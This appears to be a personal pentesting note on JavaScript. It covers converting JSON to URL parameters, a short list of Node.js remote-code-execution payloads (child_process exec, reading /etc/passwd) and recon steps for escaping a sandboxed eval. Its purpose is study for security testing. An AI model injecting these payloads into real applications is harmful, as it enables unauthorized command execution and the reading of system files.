 

## JSON2HTTP using JS


Using `URLSearchParams` [^json2http]

```js
const myParams = {'foo': 'hi there', 'bar': '???'};
const u = new URLSearchParams(myParams).toString();
console.log(u);
```

[^JSON2HTTP]: [fpilee - Is there any native function to convert json to url parameters](../../Readwise/Articles/fpilee%20-%20Is%20there%20any%20native%20function%20to%20convert%20json%20to%20url%20parameters.md#^8adf85)
# RCE payloads

```jsx
require('util').format('%s', 'hacked')
require('child_process').exec('id')
require('fs').readFileSync('/etc/passwd')
global.process.mainModule.require(child_process).exec('id')
process.mainModule.require('child_process').execSync('echo+0xbro').toString()
```

## Debug your code inside `eval`

We thought we were in the clear by identifying arbitrary command execution but because of the sandboxing we have to start from square one. Our first big step will be to identify what access our payload has while executing. [^escape-nodejs]

[^escape-nodejs]: [Escape NodeJS Sandboxes - Recon](https://www.netspi.com/blog/technical/web-application-penetration-testing/escape-nodejs-sandboxes/)

Payload to generate and print a stack trace to standard out:
```js
function stackTrace() {
var err = new Error();
print(err.stack);
}
```

Identity the current code context:
```js
> print(JSON.prune(this))
{
"console": {},
"global": "-pruned-",
"process": {
"title": "/usr/local/nvm/versions/node/v8.9.0/bin/node",
"version": "v8.9.0",
"moduleLoadList": [ ... ],
...
}
```

Debug and find other functions:
```js
> var fs = this.process.binding('fs');
> print(JSON.prune(fs));
{
"access": "func access()",
"close": "func close()",
"open": "func open()",
"read": "func read()",
...
"rmdir": "func rmdir()",
"mkdir": "func mkdir()",
...
```


[^blog]: [Remote Debugging Node.js with VS Code](https://maikthulhu.github.io/2019-05-17-remote-debugging-node-vscode/), maik's blog